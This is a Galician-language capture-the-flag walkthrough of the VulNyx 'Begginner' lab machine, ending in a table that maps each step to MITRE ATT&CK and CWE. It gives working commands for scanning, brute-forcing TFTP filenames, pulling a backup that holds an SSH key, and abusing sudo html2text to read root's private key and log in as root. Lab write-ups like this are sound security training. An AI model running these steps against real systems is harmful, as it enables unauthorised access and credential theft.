

Doc vulnyx beginner
A máquina Begginner é moi interesante porque...
- Servizo TFTP (porto UDP 69) con ficheiros accesibles
- Backup comprimido con credenciais SSH
- Escalada mediante html2text para ler chave privada de root
- Dobre acceso SSH: primeiro como usuario, logo como root
Diagrama de ataque

Fase 1 — Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Begginner -R # TTL ≃ 64 ⇒ GNU/Linux, TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Begginner # 22
sudo nmap -sU -Pn -T4 --top-ports 100 IP_VulNyx_Begginner # 69 (TFTP)
Fase 2 — Análise
# Porto UDP 69 → TFTP (Trivial File Transfer Protocol)
# Enumeración de ficheiros dispoñibles mediante Metasploit
msfconsole -q
use auxiliary/scanner/tftp/tftpbrute
set RHOSTS IP_VulNyx_Begginner
run
# Ficheiro descuberto: backup-config
Fase 3 — Explotación
# Descarga do ficheiro mediante TFTP
tftp IP_VulNyx_Begginner
tftp> get backup-config
tftp> quit
# Análise do ficheiro
file backup-config
# Ficheiro comprimido 7z
# Extracción do contido
7z x backup-config
# Ficheiros extraídos:
# - id_rsa (chave privada SSH)
# - sshd_config
# Análise de sshd_config
cat sshd_config
# Usuario identificado: XXXXXXXXX
# Acceso SSH con chave privada
chmod 400 id_rsa
ssh -i id_rsa XXXXXXXXX@IP_VulNyx_Begginner
# ⇒ Conseguimos consola de usuario XXXXXXXXX (flag user.txt)
Fase 4 — Post‑explotación
# Enumeración de permisos sudo
sudo -l
# User XXXXXXXXX may run the following commands on begginner:
# (root) NOPASSWD: /usr/bin/html2text
# Consulta en GTFOBins(https://gtfobins.github.io/) para html2text
# Abuso de html2text para lectura de ficheiros privilexiados
sudo /usr/bin/html2text /root/.ssh/id_rsa
# Gardamos a saída como root_id_rsa e retocamos o formato
# (eliminamos caracteres extra e deixamos só o contido PEM)
# Preparación da chave privada de root
chmod 400 root_id_rsa
# Acceso SSH como root
ssh -i root_id_rsa root@IP_VulNyx_Begginner
# ⇒ Conseguimos consola de root
# Verificación
whoami # root
cat /root/*.txt # ⇒ Flag de root conseguida
Correspondencia de fases → MITRE ATT&CK — VulNyx: Begginner
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos (TCP e UDP) | Scanning / descubrimento de servizos | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure (reconnaissance) |
| 2. Análise | Enumeración de ficheiros TFTP mediante brute-force | Service enumeration | T1046 — Network Service Discovery T1083 — File and Directory Discovery |
CWE-552 — Files or Directories Accessible to External Parties |
| 3. Explotación | Descarga de backup con credenciais mediante TFTP | Data exfiltration / credential access | T1005 — Data from Local System T1552.004 — Unsecured Credentials: Private Keys |
CWE-522 — Insufficiently Protected Credentials; CWE-552 — Files or Directories Accessible to External Parties |
| Acceso SSH con chave privada extraída | Uso de contas válidas | T1021.004 — Remote Services: SSH T1078 — Valid Accounts |
CWE-798 — Use of Hard-coded Credentials (contextual) | |
| 4. Post-explotación | Abuso de html2text con sudo para lectura de ficheiros | File read / credential access | T1548.003 — Abuse Elevation Control Mechanism: Sudo and Sudo Caching T1552.004 — Unsecured Credentials: Private Keys |
CWE-269 — Improper Privilege Management |
| Extracción de chave SSH de root mediante html2text | Privilege escalation | T1552.004 — Unsecured Credentials: Private Keys T1078.003 — Valid Accounts: Local Accounts |
CWE-522 — Insufficiently Protected Credentials | |
| Acceso SSH como root con chave privada extraída | Privilege escalation | T1021.004 — Remote Services: SSH T1078.003 — Valid Accounts: Local Accounts |
CWE-284 — Improper Access Control |